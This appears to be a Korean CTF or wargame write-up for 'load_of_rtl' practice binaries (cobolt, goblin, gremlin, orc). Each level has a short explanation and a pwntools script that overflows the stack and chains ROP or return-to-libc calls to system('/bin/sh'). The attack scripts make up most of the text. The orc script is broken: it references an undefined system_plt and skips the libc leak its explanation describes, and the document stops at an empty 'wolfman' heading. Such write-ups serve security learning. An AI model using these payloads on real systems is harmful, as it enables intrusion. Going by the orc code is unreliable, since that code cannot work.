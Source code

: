 # load_of_rtl

## cobolt

You can use write, read, system and /bin/sh  
gdb를 통해 디버깅하여 system_plt = 0x4010b0임을 알 수 있고, pop_rdi 가젯의 주소와 /bin/sh의 주소를 확인할 수 있다.
버퍼의 크기와 dummy, SFP를 덮은 뒤 ret를 pop_rdi 가젯의 주소로 덮는다. pop_rdi 가젯을 활용하면 rdi에 /bin/sh의 주소를 넣은 뒤 system 함수의 plt로 return하여 system("/bin/sh")를 호출하게 된다.


```python
from pwn import *

p = process("./cobolt")

pop_rdi = 0x401353
binsh = 0x404060
system_plt = 0x4010b0

p.recvuntil(b"You can use write, read, system and /bin/sh\n")

payload = b'A'*0x40
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rdi+1)
payload += p64(system_plt)
p.send(payload)

p.interactive()
```


## goblin

  
You can use read and system  
gdb를 통해 디버깅하여 read함수의 주소와 system함수의 주소를 알아낼 수 있다. "/bin/sh" 문자열이 필요하므로 ASLR의 영향을 받지 않는 bss영역에 문자열을 작성해야 한다. read(0,bss,8) 함수를 이용하여 bss영역에 문자열을 작성할 수 있다. 이와 같은 방식으로 RTL을 반복할 수 있다. 이후 system함수의 주소와 "/bin/sh" 주소를 쓰면 함수를 실행할 수 있다.

```python
from pwn import *

p = process("./goblin")

pop_ret = 0x08049022
pop3_ret = 0x08049391
read_plt = 0x80490b0
system_plt = 0x80490e0
bss = 0x804c030 + 0x300
main = 0x80492f3


payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)
# system 실행
payload += p32(system_plt)
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()
```





## gremlin


You can use write, read, system and /bin/sh  
system("/bin/sh")를 호출하기 위해 system함수의 주소와 "/bin/sh"의 주소를 구한다. ret를 system함수로 덮어주고 esp+0x4 자리에 "/bin/sh"의 주소를 쓰고 사이를 더미값으로 채워주면 system("/bin/sh")를 호출할 수 있다.

```python
from pwn import *

p = process("./gremlin")

system_plt = 0x80490f0
binsh = 0x804c034

# system("/bin/sh") 실행
p.recvuntil(b"You can use write, read, system and /bin/sh\n")
payload = b'A'*0x44
payload += b'B'*0x4
payload += p32(system_plt)
payload += b'C'*0x4
payload += p32(binsh)
pause()
p.send(payload)

p.interactive()
```



## orc 

You can use only read  
read를 사용하여 "/bin/sh"를 bss 영역에 쓸 수 있지만, system함수가 주어지지 않았으므로 라이브러리에서 찾아야 한다. read함수를 사용할 수 있으므로 현재 프로세스에서 libc_base를 구한 뒤 offset을 더하여 system 함수를 사용할 수 있다.

```python
from pwn import *

p = process("./orc")

pop_ret = 0x08049022
pop3_ret = 0x08049391
read_plt = 0x80490b0
bss = 0x804c030 + 0x300
main = 0x80492f3


payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)




# system 실행
payload += p32(system_plt)
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()

```


## wolfman
